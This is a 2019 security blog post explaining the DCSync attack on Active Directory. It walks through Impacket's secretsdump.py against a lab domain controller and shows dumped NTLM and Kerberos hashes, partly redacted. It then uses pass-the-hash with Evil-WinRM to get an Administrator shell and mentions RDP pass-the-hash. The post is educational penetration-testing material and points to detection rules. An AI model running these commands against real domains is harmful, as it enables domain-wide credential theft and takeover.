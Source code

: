 ```yaml
---
layout: post
title: DC Sync - The Downfall of your Network
subtitle: Did you say dump ALL our domains hashes?
gh-badge:
  - star
  - fork
  - follow
tags:
  - Kali
  - Impacket
  - Active Directory
  - Hashcat
comments: true
published: true
date: '2019-12-1'
---
```


## Domain Controllers, it's not their fault you've misconfigured your network!

The really nice thing about Domain Controllers is that they do exactly what they're told to do. They're given a specific set of rules and they follow them <b>very</b> well. It's up to us to abuse them in ways that they've been told that they're allowed to. So how can we abuse a Domain Controller? The best way is indrectly, if possible.

Within an Active Directory network, it's useful to have a backup Domain Controller so if your primary fails, you'll have a second one to back you up. Perhaps if your workplace gets hit on Ransomware, you may have a hot site so that you can be back up in running in a few minutes. These are all valid reasons that a user account might have a very dangerous set of account permissions called "Replicating Directory Changes", "Replicating Directory Changes All", and lastly, "Replicating Directory Changes in Filtered Set". This is commonly refered to as "DC Sync", or Domain Controller Sync. 

<img src="https://spookysec.net/img/dcsync.png">

What these given permissions allow for is all of the user accounts stored on the primary Domain Controller to be Sync'd with this user account. If your DC's hard drive fails, this could be a life saving thing to have. If an attacker gains access to this user account, they have all of your domains password hashes. At that point you shoudl pray you have some sort of multi factor authenthication system within your network. For example, a Yubikey or Duo.

## Exploitation

Enough talk about the specifics of DC-Sync, lets get into exploitation. Like always you will need <a href='https://github.com/SecureAuthCorp/impacket'>Impacket</a> downloaded on your system

```
┌─[root@Sp00kyS3c]─[~]
└──╼ #git clone https://github.com/SecureAuthCorp/impacket.git
Cloning into 'impacket'...
remote: Enumerating objects: 16, done.
remote: Counting objects: 100% (16/16), done.
remote: Compressing objects: 100% (14/14), done.
remote: Total 16908 (delta 2), reused 6 (delta 2), pack-reused 16892
Receiving objects: 100% (16908/16908), 5.57 MiB | 8.81 MiB/s, done.
Resolving deltas: 100% (12911/12911), done.
┌─[root@MrS1n1st3r]─[~]
└──╼ #cd impacket/examples/
┌─[root@Sp00kyS3c]─[~/impacket/examples]
└──╼ #ls 
atexec.py    esentutl.py    GetNPUsers.py  getTGT.py       ifmap.py       lookupsid.py   mssqlclient.py    nmapAnswerMachine.py  opdump.py  psexec.py      registry-read.py  sambaPipe.py    services.py   smbrelayx.py  sniff.py     wmiexec.py
dcomexec.py  GetADUsers.py  getPac.py      GetUserSPNs.py  karmaSMB.py    mimikatz.py    mssqlinstance.py  ntfs-read.py          ping6.py   raiseChild.py  reg.py            samrdump.py     smbclient.py  smbserver.py  split.py     wmipersist.py
dpapi.py     getArch.py     getST.py       goldenPac.py    kintercept.py  mqtt_check.py  netview.py        ntlmrelayx.py         ping.py    rdp_check.py   rpcdump.py        secretsdump.py  smbexec.py    sniffer.py    ticketer.py  wmiquery.py
┌─[root@Sp00kyS3c]─[~/impacket/examples]
└──╼ #
```

We will primarily be working with a tool called "secretsdump.py" this time around. Access to any ordinary user account <b>will not suffice.</b> as described above, a user account with <b>Replicating Directory Changes</b> is required. This is what occurs when a user account <b>without</b> these privileges attempts to preform the attack.

```
┌─[root@Sp00kyS3c]─[~/impacket/examples]
└──╼ #./secretsdump.py -dc-ip 10.13.37.10 spookysec.local/svc-demo:manager@10.13.37.10
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something wen't wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up... 
```

If you're not careful, this could trigger an Intrusion Prevention/Detection System alert. This is a rule that everyone should have within their IPS. Didier Stevens took their time to write several for Mimikatz, they can be found <a href='https://blog.didierstevens.com/2017/10/08/quickpost-mimikatz-dcsync-detection/'>here!</a> (Maybe this could inspire someone to write IDS/IPS alerts)

Back to exploitation! With a proper user account this attack will likely succeed with ease.

```
┌─[root@MrS1n1st3r]─[~/impacket/examples]
└──╼ #./secretsdump.py -dc-ip 10.13.37.10 spookysec.local/backup:backup@10.13.37.10
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404 <snip> 3fe20cbe99b4a:::
Guest:501:aad3b435b51404eeaad <snip> 6ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad <snip> f978f125b2069292e327fbebe3:::
spookysec.local\svc-demo:1112:aad3b435b51404eeaa <snip> 9e372aa1f69147375ba6809:::
spookysec.local\backup:1113:aad3b435b5140 <snip> 4b40f1ca9aab45538:::
DC$:1008:aad3b435b51404eeaad3b43 <snip> 2208265f4726f8065a681:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:fcdd7ceb88389fc3 <snip> 7dfa150c1381872192eeb
Administrator:aes128-cts-hmac-sha1-96:4a9b79 <snip> 4557057eac
Administrator:des-cbc-md5:fe1f <snip> 793e57
krbtgt:aes256-cts-hmac-sha1-96:7107ca3bd17590 <snip> d980f3d1673dc20eaa8415
krbtgt:aes128-cts-hmac-sha1-96:57b394d <snip> dea239bfb08be
krbtgt:des-cbc-md5:e5320 <snip> 45f45b
spookysec.local\svc-demo:aes256-cts-hmac-sha1-96:effa9b <snip> e68f8d29647911df20b626d82863518
spookysec.local\svc-demo:aes128-cts-hmac-sha1-96:aed4 <snip> b0ae87030b3ff
spookysec.local\svc-demo:des-cbc-md5:2c4 <snip> 6ea0d
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d1162 <snip> 4d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2ae <snip> 971c836d197
spookysec.local\backup:des-cbc-md5:d601e9 <snip> 6d89
DC$:aes256-cts-hmac-sha1-96:a3c83bdaa420b48f <snip> b2733baae30d163c9fdb8
DC$:aes128-cts-hmac-sha1-96:96253e855598c <snip> 4fcbe22
DC$:des-cbc-md5:a7e34a <snip> d29f8
[*] Cleaning up... 
```

Awesome, now we have everyone on the domains account hashes! What can we do with them? Of course we can use our favorite tool Evil-WinRM or almost any other Impacket tool to authenthicate as them!

```
┌─[root@MrS1n1st3r]─[~/impacket/examples]
└──╼ #evil-winrm -u Administrator -i 10.13.37.10 -H e34029a98 <snip > e20cbe99b4a

Evil-WinRM shell v1.9

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
spookysec\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

No need for password cracking here, although if you're looking to authenthicate via RDP with PassTheHash, you will have some difficulty. Windows by default includes account login restrictions that prevent users from signing in with a null password. xfreerdp <b>does</b> support /pth:<hash> for PassTheHash functionality though. So if you can disable the requirements via Evil-WinRM you will have full RDP access to the system!
